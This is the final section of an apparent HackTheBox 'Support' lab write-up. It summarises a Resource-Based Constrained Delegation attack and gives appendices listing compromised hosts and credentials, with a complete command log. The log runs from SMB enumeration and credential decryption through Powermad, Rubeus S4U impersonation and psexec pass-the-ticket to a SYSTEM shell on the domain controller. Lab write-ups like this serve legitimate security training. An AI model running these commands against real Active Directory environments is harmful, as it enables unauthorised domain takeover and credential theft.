**Skill/Technique 4: End-to-End RBCD / S4U Kerberos Exploitation.** Executed a complete Resource-Based Constrained Delegation attack chain: verified prerequisites (`ms-DS-MachineAccountQuota`, empty RBCD attribute), created an attacker-controlled machine account via Powermad, configured the delegation using `Set-ADComputer`, computed the RC4-HMAC hash of the machine account password with Rubeus, performed S4U2Self/S4U2Proxy to obtain a Kerberos ticket impersonating the domain Administrator for the `cifs/dc.support.htb` SPN, converted the `.kirbi` ticket to `.ccache` using `ticketConverter.py`, and achieved a SYSTEM-level shell on the Domain Controller via Impacket `psexec.py` pass-the-ticket.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ---------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host                      | Method                                               | Notes                                                              |
| ------------------------- | ---------------------------------------------------- | ------------------------------------------------------------------ |
| `10.129.60.142:445`       | Unauthenticated SMB share access                     | Initial access — `UserInfo.exe.zip` retrieved without credentials  |
| `10.129.60.142:445`       | .NET decompilation + XOR decryption                  | LDAP service account credentials recovered from binary             |
| `10.129.60.142:389`       | Authenticated LDAP enumeration                       | Plaintext `support` user password discovered in `info` attribute   |
| `10.129.60.142:5985`      | WinRM with valid credentials                         | Interactive shell as `support\support` — user.txt captured         |
| `dc.support.htb` (local)  | RBCD / S4U Kerberos + psexec.py pass-the-ticket      | Full domain compromise — SYSTEM shell, root.txt captured           |

### C. Compromised Users / Credentials

| Username         | Method                                              | Notes                                                        |
| ---------------- | --------------------------------------------------- | ------------------------------------------------------------ |
| `support\ldap`   | .NET binary decompilation + XOR decryption          | Used for authenticated LDAP enumeration                      |
| `support\support`| Plaintext password in LDAP `info` attribute         | WinRM foothold; member of `Shared Support Accounts`          |
| `FAKE-COMP01$`   | Created by attacker via Powermad                    | Attacker-controlled machine account; RBCD delegation chain   |
| `Administrator`  | Kerberos S4U impersonation via RBCD                 | Full domain compromise; root.txt captured                    |

### D. Command Reference Log

```bash
# ──────────────────────────────────────────────
# PHASE 1: RECONNAISSANCE & ENUMERATION
# ──────────────────────────────────────────────
nmap -sC -sV -Pn 10.129.60.142

smbclient -L \\\\10.129.60.142\\
smbclient \\\\10.129.60.142\\support-tools
dir
get UserInfo.exe.zip
exit

unzip UserInfo.exe.zip
file UserInfo.exe

# ──────────────────────────────────────────────
# PHASE 2: BINARY ANALYSIS & CREDENTIAL RECOVERY
# ──────────────────────────────────────────────
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-x64
./ILSpy
# File → Open → UserInfo.exe (manual decompilation)

python3 decrypt.py
# Output: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

echo "10.129.60.142 support.htb" | sudo tee -a /etc/hosts
echo "10.129.60.142 dc.support.htb" | sudo tee -a /etc/hosts

sudo apt install ldap-utils
ldapsearch -H ldap://support.htb -D ldap@support.htb \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
# Review output — note info: Ironside47pleasure40Watchful on support user

# ──────────────────────────────────────────────
# PHASE 3: INITIAL FOOTHOLD
# ──────────────────────────────────────────────
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
whoami
cd C:\Users\support\Desktop
cat user.txt

# ──────────────────────────────────────────────
# PHASE 4: POST-EXPLOITATION & BLOODHOUND
# ──────────────────────────────────────────────
Get-ADDomain
whoami /groups

# Attacker machine — BloodHound setup
sudo neo4j start
wget https://github.com/SpecterOps/BloodHound-Legacy/releases/download/v4.3.1/BloodHound-linux-x64.zip
unzip BloodHound-linux-x64.zip
./BloodHound-linux-x64/BloodHound
git clone https://github.com/BloodHoundAD/BloodHound

# Evil-WinRM session — SharpHound collection
cd C:\Windows\Temp
upload SharpHound.exe
.\SharpHound.exe
download 20260924175507_BloodHound.zip

# ──────────────────────────────────────────────
# PHASE 5: RBCD PRE-CONDITION CHECKS
# ──────────────────────────────────────────────
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota

wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

# ──────────────────────────────────────────────
# PHASE 6: RBCD ATTACK CHAIN
# ──────────────────────────────────────────────
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-ADComputer -identity FAKE-COMP01

Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount

wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 \
  /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt

# ──────────────────────────────────────────────
# PHASE 7: PASS-THE-TICKET & DOMAIN ADMIN
# ──────────────────────────────────────────────
tr -cd 'A-Za-z0-9+/=' < ticket.kirbi.b64 | base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

### E. References

- [MITRE ATT&CK: T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/)
- [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK: T1087.002 — Account Discovery: Domain Account](https://attack.mitre.org/techniques/T1087/002/)
- [MITRE ATT&CK: T1484 — Domain or Tenant Policy Modification](https://attack.mitre.org/techniques/T1484/)
- [MITRE ATT&CK: T1558 — Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)
- [MITRE ATT&CK: T1550.003 — Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/)
- [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
- [CWE-256: Plaintext Storage of a Password](https://cwe.mitre.org/data/definitions/256.html)
- [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [Elad Shamir — Wagging the Dog: Abusing Resource-Based Constrained Delegation](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [BloodHound — Active Directory Attack Path Management](https://bloodhoundenterprise.io/)
- [Official HackTheBox Support Machine Page](https://app.hackthebox.com/machines/Support)

> **Note on CVEs:** No CVEs apply to this assessment. All findings are Active Directory ACL misconfigurations, insecure application design decisions, and credential management failures rather than vulnerabilities in versioned third-party software with public CVE assignments.
